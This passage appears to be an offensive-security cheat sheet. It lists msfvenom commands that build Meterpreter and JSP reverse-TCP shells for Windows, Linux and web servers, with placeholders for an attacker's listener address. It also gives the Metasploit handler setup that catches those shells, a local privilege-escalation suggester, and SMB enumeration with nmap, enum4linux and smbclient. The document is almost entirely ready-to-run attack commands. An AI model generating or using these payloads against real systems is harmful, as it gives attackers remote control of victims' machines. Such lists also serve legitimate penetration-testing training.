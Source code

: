 ```
STAGED
x86: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

```
STAGELESS
x86: msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exee
x64: msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

##### Linux

```
STAGED
x86: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64: msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

```
STAGELESS
x86: msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64: msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

##### Web

```
asp: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php: msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

To use meterpreter shells make sure to: 

```
use exploit/multi/handler
set payload <payload>
  > set payload windows/shell/reverse_tcp

run post/multi/recon/local_exploit_suggester
```

## SERVICES

### SMB

```
nmap --script smb-os* -p 139,445 -oN smb-scan.nmap <IP>

enum4linux -a <IP> > <output>

smbclient -L //<IP>/: lists open SMB shares
smbclient //<IP>/<share>: connect to an open SMB share

use auxiliary/scanner/smb/smb_version
```

